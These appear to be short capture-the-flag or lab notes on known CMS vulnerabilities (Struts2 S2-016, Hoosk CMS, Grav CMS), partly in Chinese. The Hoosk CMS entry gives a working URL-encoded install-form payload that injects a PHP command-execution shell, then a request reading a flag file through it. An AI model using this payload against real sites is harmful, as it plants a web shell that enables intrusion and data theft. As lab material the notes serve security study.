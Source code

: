 ## CVE-2013-2251 S2-016

![image-20230712101227834](%E9%9D%B6%E5%9C%BA.assets/image-20230712101227834.png)



## CVE-2020-26042 hoosk cms 1.8.0 sql inj

```
http://url/install/
```

post:

siteName=&siteURL=http%3A//baidu.com/%27%29%3Bif%28%24_REQUEST%5B%27s%27%5D%29%20%7B%0A%20%20system%28%24_REQUEST%5B%27s%27%5D%29%3B%0A%20%20%7D%20else%20phpinfo%28%29%3Bexit%28%29%3B//&dbName=mysql&dbUserName=root&dbPass=root&dbHost=127.0.0.1



get flag:

```
?s=cat%20../../../../../../flag
```





## CVE-2022-2073 Grav CMS存在任意代码执行漏洞

*靶标介绍：*

Grav CMS 可以通过 Twig 来进行页面的渲染，使用了不安全的配置可以达到远程代码执行的效果，影响最新版 v1.7.34 以下的版本
